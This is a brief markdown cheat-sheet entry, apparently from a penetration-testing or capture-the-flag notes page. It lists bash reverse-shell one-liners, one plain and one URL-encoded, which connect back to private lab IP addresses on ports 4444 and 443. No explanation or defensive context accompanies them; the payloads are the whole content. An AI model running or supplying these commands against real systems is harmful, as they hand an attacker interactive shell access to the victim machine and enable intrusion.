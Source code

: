 ## bash
- Normal
  - `bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
- URL Encode
  - `bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'` 
